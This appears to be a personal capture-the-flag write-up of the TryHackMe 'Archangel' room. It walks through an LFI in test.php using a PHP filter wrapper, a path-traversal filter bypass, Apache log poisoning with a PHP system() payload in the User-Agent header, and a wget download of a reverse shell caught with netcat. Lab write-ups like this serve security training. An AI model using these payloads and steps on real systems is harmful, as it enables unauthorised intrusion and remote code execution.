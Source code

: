 
2025-02-15 18:31

Source: #Boot2root #tryhackme 
### Recon

Rustscan shows a ssh (22) and http (80) port open 

find the hostname using the command below 
```sh
curl -s 10.10.93.69 | grep ".thm"
```

add the newly found host to `etc/hosts`
```sh
echo "10.10.93.69 mafialive.thm" | sudo tee -a /etc/hosts
```
### Exploiting LFI 

dirsearch finds a `robots.txt`, the `robots.txt` tells us that `test.php` is disallowed for robots to crawl

On `test.php` page, we can't see much except a button which when clicked prints "Control is an illusion". But if we see closely, then when we click on the button the parameter `?view=/var/www/html/development_testing/mrrobot.php` gets added to the URL. The entire path of the page `mrrobot.php` is provided over here which appears to be a bit odd because normally relative paths can be used.

Unfortunately, it seems we can’t read the code in `test.php`, probably due to a protection in the script.

However, if we try to include other files, e.g. `/etc/passwd`, we will get an error saying: ‘Sorry, That's not allowed’. To understand the code logic that filters out certain inputs, we can use PHP wrappers to include the source code of the page as base64 encoded text, then decode it. Info on PHP wrappers that can be used for LFI/RFI [https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers), [PayloadsAllTheThings/File Inclusion at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter)

syntax
```sh
http://***DOMAIN***.thm/***PAGE***?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/***PAGE***
```

```sh
curl -s http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

above URL returns a base64 encoded string, decoding the string reveals code of `test.php`

The code is checking that the 2 below conditions are met about the injected content:

- it should not contain `../..`
- it should contain `/var/www/html/development_testing`

We can bypass the path traversal protection by replacing `../..` with `.././..`, as follows:

```sh
kali@kali:/data/Archangel$ curl -s http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././../log/apache2/access.log
```

From the access logs it can be seen that along with the path that we are trying to access our User-Agent is also getting logged. We can add a PHP code in the User-Agent header using Burp Suite and with the help of that gain a reverse shell.

We’ll now poison the apache2 log file by injecting a PHP payload in the user-agent string as follows
Now, let’s download a PHP reverse shell. Start by hosting it locally (`python3 -m http.server`) and download it by sending the following request in BurpSuite Repeater

1. Add the following code somewhere in the `User-Agent` header value:
    
    ```html
    <?php system($_GET['cmd']); ?>
    ```
    
2. Append `&cmd=whoami` to the GET request. Here, all that we are doing is passing `whoami` string to the `cmd` variable would get processed by the PHP code in the User-Agent and we would get the output of the command in the logged User-Agent value in the `access.log` file.

When you send the request for the first time, you won't see anything in the output because the command has just been executed and what you are viewing is the copy of log file before the output of your command was written to it. Therefore, you need to send the same request again so that the output written previous can now be viewed.

start of the malicious burp request looks 
```
GET /test.php?view=/var/www/html/development_testing/.././.././../log/apache2/access.log&cmd=wget%20http://10.8.**.**:8000/rev.php HTTP/1.1
Host: mafialive.thm
User-Agent: <?php system($_GET['cmd']); ?>
```

call the reverse shell on the server by browsing `http://mafialive.thm/rev.php` We now have a reverse shell:
```sh
rlwrap nc -nlvp 4444
```




### References
[TryHackMe | Cyber Security Training](https://tryhackme.com/room/archangel)

walkthrough

[Writeups/TryHackMe/Easy/archangel/archangel.md at master · 0xNirvana/Writeups · GitHub](https://github.com/0xNirvana/Writeups/blob/master/TryHackMe/Easy/archangel/archangel.md)
[TryHackMe-Archangel - aldeid](https://www.aldeid.com/wiki/TryHackMe-Archangel)
[Archangel - Write-up - TryHackMe | Rawsec](https://blog.raw.pm/en/TryHackMe-Archangel-write-up/)
[TryHackMe: Archangel Writeup. https://tryhackme.com/room/archangel | by ALIEN0X | Medium](https://medium.com/@infohellohumans/tryhackme-archangel-writeup-2807313edfb7)
[TryHackMe – Archangel walkthrough - narancs's blog](https://narancsblog.com/thm/easy/archangel/)